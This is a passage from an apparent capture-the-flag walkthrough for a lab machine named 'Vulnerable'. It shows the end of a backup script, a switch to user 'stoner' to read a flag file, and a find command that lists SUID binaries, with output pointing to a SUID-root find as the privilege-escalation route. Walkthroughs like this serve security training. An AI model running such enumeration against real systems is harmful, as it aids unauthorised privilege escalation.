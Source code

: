```sh
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi
    done


else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

`backup`

2. user.txt

```
basterd@Vulnerable:~$ su stoner
Password:
stoner@Vulnerable:/home/basterd$ cd ~
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret
You made it till here, well done.
```

`You made it till here, well done.`

3. What did you exploit to get the privileged user?

```
stoner@Vulnerable:~$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 38900 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26492 May 15  2019 /bin/umount
-rwsr-xr-x 1 root root 34812 May 15  2019 /bin/mount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
-rwsr-xr-- 1 root messagebus 46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newgidmap
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
-rwsr-sr-x 1 daemon daemon 50748 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root root 39560 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 74280 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 53128 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 34680 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 159852 Jun 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 18216 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 78012 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newuidmap
```
